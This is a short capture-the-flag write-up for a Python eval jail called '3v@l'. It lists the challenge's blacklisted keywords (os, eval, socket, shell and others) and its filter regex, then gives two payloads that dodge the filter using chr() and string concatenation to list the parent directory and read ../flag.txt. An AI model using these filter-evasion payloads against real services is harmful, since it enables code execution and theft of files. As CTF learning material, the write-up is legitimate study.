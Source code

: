# 3v@l

Blacklisted words: os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind

Regex to bypass: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'

- `0x[0-9A-Fa-f]+`: Hexadecimal numbers prefixed with 0x
- `\\u[0-9A-Fa-f]{4}` : Unicode escape sequences in the \uXXXX format
- `%[0-9A-Fa-f]{2}` : URL-encoded characters in the %XX format
- `\.[A-Za-z0-9]{1,3}\b` : File extensions of 1 to 3 alphanumeric characters preceded by a dot
- `[\\\/]` : Backslash or forward slash
- `\.\.` : ..

```python
__import__(chr(111)+chr(115)).listdir('.'+'.')
# os.listdir('..')
```

```python
open('.'+'.'+chr(47)+'flag.'+'txt').read()
# open(../flag.txt).read()
```
